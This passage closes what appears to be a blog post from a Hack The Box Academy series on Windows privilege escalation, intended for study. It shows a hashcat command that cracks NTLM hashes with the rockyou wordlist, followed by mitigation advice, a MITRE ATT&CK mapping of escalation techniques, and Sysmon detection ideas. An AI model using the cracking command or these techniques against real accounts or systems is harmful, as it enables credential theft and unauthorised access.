### (-m 1000 is for NTLM hashes)

#### Technical Methodology & Exploit Execution:

```bash
hashcat -m 1000 hash.txt rockyou.txt
```
(-m 1000 is for NTLM hashes):

*
*

We got the password!


*_Figure 127.1 — Lab execution and output verification (Page 127)_*


*_Figure 127.2 — Lab execution and output verification (Page 127)_*


*_Figure 127.3 — Lab execution and output verification (Page 127)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1548.002, T1543.003, T1134, T1053.005` |
| **Common Weakness Enumerations** | `CWE-269, CWE-428, CWE-732` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1548.002`](https://attack.mitre.org/techniques/T1548/) | **Bypass User Account Control** | `Privilege Escalation` | Abusing auto-elevating Windows binaries and registry hijacks |
| [`T1543.003`](https://attack.mitre.org/techniques/T1543/) | **Create or Modify System Process: Windows Service** | `Privilege Escalation` | Unquoted service paths and weak service permissions |
| [`T1134`](https://attack.mitre.org/techniques/T1134/) | **Access Token Manipulation** | `Privilege Escalation` | Potato exploits abusing `SeImpersonatePrivilege` or `SeAssignPrimaryToken` |
| [`T1053.005`](https://attack.mitre.org/techniques/T1053/) | **Scheduled Task/Job: Scheduled Task** | `Privilege Escalation` | Modifying binaries executed by SYSTEM scheduled tasks |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-269`: Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html)
- [`CWE-428`: Unquoted Search Path or Element](https://cwe.mitre.org/data/definitions/428.html)
- [`CWE-732`: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Sysmon Event ID 1: Monitor anomalous child processes spawned by service binaries running as `NT AUTHORITY\SYSTEM`.
- Sysmon Event ID 12 / 13: Monitor registry key changes under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` or UAC registry keys.
- Audit service file permissions and ensure non-admin accounts do not have write access to service binaries or directories.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Windows Privilege Escalation](https://academy.hackthebox.com/module/67) — *Official Hack The Box curriculum track*
- [LOLBAS Project: Living Off The Land Binaries and Scripts](https://lolbas-project.github.io/) — *Complete repository of built-in Windows privilege abuse tools*
- [HackTricks: Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation) — *Methodical Windows exploitation checklist*
- [PayloadsAllTheThings: Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation) — *Practical commands and scripts*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-20-server-side-attacks/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 20: Server-Side Attacks (SSRF, SSTI & XXE)</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 21 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-22-pivoting-tunneling-and-port-forwarding/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 22: Pivoting, Tunneling & Port Forwarding</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
